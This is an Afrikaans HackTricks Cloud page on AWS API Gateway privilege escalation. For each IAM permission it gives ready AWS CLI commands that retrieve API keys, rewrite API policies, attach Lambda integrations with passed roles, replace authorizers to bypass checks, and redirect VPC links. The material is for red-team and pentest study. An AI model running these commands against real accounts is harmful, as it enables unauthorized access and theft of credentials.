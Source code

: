 # AWS - Apigateway Privesc

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Apigateway

Vir meer inligting, kyk:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### `apigateway:POST`

Met hierdie toestemming kan jy API sleutels van die geconfigureerde API's genereer (per streek).
```bash
aws --region <region> apigateway create-api-key
```
**Potensiële Impak:** Jy kan nie privesc met hierdie tegniek nie, maar jy mag toegang tot sensitiewe inligting kry.

### `apigateway:GET`

Met hierdie toestemming kan jy gegenereerde API-sleutels van die geconfigureerde API's verkry (per streek).
```bash
aws --region <region> apigateway get-api-keys
aws --region <region> apigateway get-api-key --api-key <key> --include-value
```
**Potensiële Impak:** Jy kan nie privesc met hierdie tegniek nie, maar jy mag toegang tot sensitiewe inligting kry.

### `apigateway:UpdateRestApiPolicy`, `apigateway:PATCH`

Met hierdie toestemmings is dit moontlik om die hulpbronbeleid van 'n API te wysig om jouself toegang te gee om dit aan te roep en die potensiële toegang wat die API-gateway mag hê, te misbruik (soos om 'n kwesbare lambda aan te roep).

{% code overflow="wrap" %}
```bash
aws apigateway update-rest-api \
--rest-api-id api-id \
--patch-operations op=replace,path=/policy,value='"{\"jsonEscapedPolicyDocument\"}"'
```
{% endcode %}

**Potensiële Impak:** Jy sal gewoonlik nie direk met hierdie tegniek kan privesc nie, maar jy mag toegang tot sensitiewe inligting kry.

### `apigateway:PutIntegration`, `apigateway:CreateDeployment`, `iam:PassRole`

{% hint style="info" %}
Benodig toetsing
{% endhint %}

'n Aanvaller met die toestemmings `apigateway:PutIntegration`, `apigateway:CreateDeployment`, en `iam:PassRole` kan **'n nuwe integrasie by 'n bestaande API Gateway REST API met 'n Lambda-funksie wat 'n IAM-rol aangeheg het, voeg**. Die aanvaller kan dan **die Lambda-funksie aktiveer om arbitrêre kode uit te voer en moontlik toegang tot die hulpbronne wat met die IAM-rol geassosieer is, te verkry**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"
LAMBDA_ROLE_ARN="arn:aws:iam::account-id:role/lambda-role"

# Add a new integration to the API Gateway REST API
aws apigateway put-integration --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --type AWS_PROXY --integration-http-method POST --uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations --credentials $LAMBDA_ROLE_ARN

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Potensiële Impak**: Toegang tot hulpbronne geassosieer met die Lambda-funksie se IAM-rol.

### `apigateway:UpdateAuthorizer`, `apigateway:CreateDeployment`

{% hint style="info" %}
Benodig toetsing
{% endhint %}

'n Aanvaller met die toestemmings `apigateway:UpdateAuthorizer` en `apigateway:CreateDeployment` kan **'n bestaande API Gateway-outeur** wysig om sekuriteitskontroles te omseil of om arbitrêre kode uit te voer wanneer API-versoeke gemaak word.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
AUTHORIZER_ID="your-authorizer-id"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"

# Update the API Gateway authorizer
aws apigateway update-authorizer --rest-api-id $API_ID --authorizer-id $AUTHORIZER_ID --authorizer-uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Potensiële Impak**: Omseiling van sekuriteitskontroles, ongeoorloofde toegang tot API-hulpbronne.

### `apigateway:UpdateVpcLink`

{% hint style="info" %}
Benodig toetsing
{% endhint %}

'n Aanvaller met die toestemming `apigateway:UpdateVpcLink` kan **'n bestaande VPC-koppeling wysig om na 'n ander Netwerk Laai Balancer te verwys, wat moontlik private API-verkeer na ongeoorloofde of kwaadwillige hulpbronne kan herlei**.
```bash
bashCopy codeVPC_LINK_ID="your-vpc-link-id"
NEW_NLB_ARN="arn:aws:elasticloadbalancing:region:account-id:loadbalancer/net/new-load-balancer-name/50dc6c495c0c9188"

# Update the VPC Link
aws apigateway update-vpc-link --vpc-link-id $VPC_LINK_ID --patch-operations op=replace,path=/targetArns,value="[$NEW_NLB_ARN]"
```
**Potensiële Impak**: Onbevoegde toegang tot private API-hulpbronne, onderskepping of onderbreking van API-verkeer.

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
